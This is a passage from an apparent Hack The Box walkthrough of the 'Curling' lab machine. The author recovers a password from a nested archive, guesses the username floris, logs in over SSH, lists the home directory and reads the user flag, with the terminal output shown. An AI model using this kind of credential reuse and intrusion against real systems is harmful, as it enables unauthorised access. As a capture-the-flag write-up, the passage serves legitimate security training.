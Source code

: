 Well, we had it with the previous matryoska, but never hurts just to be sure. This definitely looks like the password we need: `5d<wdCbdZu)|hChXll`.

Where can we use this password? We already have access to the admin panel for Joomla!, port **22** was open - let's try to ssh into the box with this as the password. We don't *know* the user yet, but we can make a few good guesses.

```
root@apollo:~/htb/Curling# ssh floris@10.10.10.150
floris@10.10.10.150's password: 

Permission denied, please try again.
floris@10.10.10.150's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-22-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar 27 01:53:54 UTC 2019

  System load:  0.07              Processes:            169
  Usage of /:   46.2% of 9.78GB   Users logged in:      0
  Memory usage: 21%               IP address for ens33: 10.10.10.150
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon May 28 17:00:48 2018 from 192.168.1.71
floris@curling:~$ id
uid=1000(floris) gid=1004(floris) groups=1004(floris)
floris@curling:~$ 
floris@curling:~$ pwd
/home/floris
floris@curling:~$ ls -la
total 44
drwxr-xr-x 6 floris floris 4096 May 22  2018 .
drwxr-xr-x 3 root   root   4096 May 22  2018 ..
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr  4  2018 .bashrc
drwx------ 2 floris floris 4096 May 22  2018 .cache
drwx------ 3 floris floris 4096 May 22  2018 .gnupg
drwxrwxr-x 3 floris floris 4096 May 22  2018 .local
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
floris@curling:~$ cat user.txt 
65dd1****************b8530b
```
Great - I didn't forget about that `/admin-area/` though. That's where I want to head next.
